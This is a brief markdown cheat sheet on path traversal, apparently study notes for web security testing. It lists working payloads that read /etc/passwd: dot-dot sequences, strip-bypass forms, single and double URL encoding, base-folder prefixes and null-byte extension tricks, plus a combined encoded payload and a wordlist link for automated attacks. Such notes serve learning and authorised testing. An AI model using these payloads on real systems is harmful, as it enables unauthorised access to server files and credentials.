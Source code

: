 # Path traversal

## <mark style="color:yellow;">General info</mark>

* `<img src="/loadImage?filename=218.png">`
* An attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem
* `https://insecure-website.com/loadImage?filename=../../../etc/passwd`
* On Windows, both `../` and `..\` are valid directory traversal sequences

## <mark style="color:yellow;">Bypass defences</mark>

* Elimination (strip): `../` -> `....//`
  * Test: try to change the orginal request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  * If the file is loaded the code strip `../`
* Encode: `../` ->`%2e%2e%2f`
* Double-encode: `../` ->`%252e%252e%252f`
* Require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
* Require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
* Others

## <mark style="color:yellow;">Tips</mark>

* Don't always trust error messages
  * `GET /image?filename=/etc/passwd` -> "No such file"
    * Try to add null byte: `GET /image?filename=/etc/passwd%00`
    * Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
* Combine the cases:
  * Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist exstension)
  * `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`

## <mark style="color:yellow;">Automatic exploitation</mark>

Use intruder with this list: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep\_traversal.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep\_traversal.txt)&#x20;
